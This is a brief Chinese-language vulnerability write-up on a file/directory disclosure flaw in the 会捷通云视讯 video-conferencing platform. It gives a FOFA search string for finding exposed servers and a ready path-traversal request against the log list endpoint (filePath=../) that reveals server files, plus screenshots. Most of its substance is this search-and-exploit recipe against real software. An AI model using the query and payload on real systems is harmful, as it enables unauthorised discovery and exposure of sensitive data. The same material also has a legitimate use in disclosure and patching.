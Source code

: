 # 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

```
会捷通云视讯
```

## FOFA

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101859423.png)

访问Url



```plain
/him/api/rest/V1.0/system/log/list?filePath=../
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101859690.png)



## 